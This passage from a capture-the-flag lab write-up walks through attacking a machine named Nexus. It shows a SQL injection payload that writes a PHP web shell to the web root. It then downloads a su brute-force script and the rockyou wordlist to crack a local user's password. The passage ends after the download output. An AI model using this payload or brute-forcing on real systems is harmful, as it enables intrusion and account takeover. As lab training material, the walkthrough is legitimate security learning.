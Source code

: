 ![](/assets/img/Anexos/Máquina%20Nexus-5.png)

I decided to get a shell since the target is Linux and is using php: 

```shell
test' union select 1,2,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd.php" -- -
```

![](/assets/img/Anexos/Máquina%20Nexus-6.png)

![](/assets/img/Anexos/Máquina%20Nexus-7.png)

## Privilage escalation

Once in, we can see the existence of shelly user  
```shell
www-data@NexusLabCTF:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Mar 28 16:18 .
drwxr-xr-x 18 root   root   4096 Mar 28 16:10 ..
drwx------  4 shelly shelly 4096 May  8 22:51 shelly
```

We can try to brute for it using `suBF.sh`
```shell
❯ cp /usr/share/wordlists/rockyou.txt .
❯ ls
 n   rockyou.txt   scan1.txt   scan2.txt   shell.sh
❯ wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh .
--2025-06-10 15:48:32--  https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2340 (2.3K) [text/plain]
Saving to: ‘suBF.sh’

suBF.sh                     100%[==========================================>]   2.29K  --.-KB/s    in 0.01s   

2025-06-10 15:48:32 (195 KB/s) - ‘suBF.sh’ saved [2340/2340]

Prepended http:// to '.'
--2025-06-10 15:48:32--  http://./
Resolving . (.)... failed: No address associated with hostname.
wget: unable to resolve host address ‘.’
FINISHED --2025-06-10 15:48:32--
Total wall clock time: 0.3s
Downloaded: 1 files, 2.3K in 0.01s (195 KB/s)
```
